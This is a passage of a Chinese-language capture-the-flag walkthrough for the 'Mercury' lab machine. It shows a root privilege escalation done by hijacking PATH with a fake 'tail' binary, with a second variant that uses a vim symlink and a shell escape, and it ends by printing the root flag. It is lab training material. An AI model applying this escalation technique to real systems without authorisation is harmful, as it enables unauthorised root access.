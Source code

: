 我没可以以root用户身份执行/usr/bin/check_syslog.sh文件

```shell
linuxmaster@mercury:~$ ls -la /usr/bin/check_syslog.sh
-rwxr-xr-x 1 root root 39 Aug 28  2020 /usr/bin/check_syslog.sh
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```
### Linux Privilege Escalation with PATH Variable

我们可以劫持此PATH导致权限提升

```bash
linuxmaster@mercury:~$ export PATH=./:$PATH
linuxmaster@mercury:~$ echo "sudo su" > tail
linuxmaster@mercury:~$ chmod +x tail 
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
root@mercury:/home/linuxmaster# cd
root@mercury:~# ls
root_flag.txt
```

```bash
也可以使用这种方式进行利用

ln -s /usr/bin/vim tail
export PATH=$(pwd):$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh

:!/bin/bash
```

### root_flag.txt

```console
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```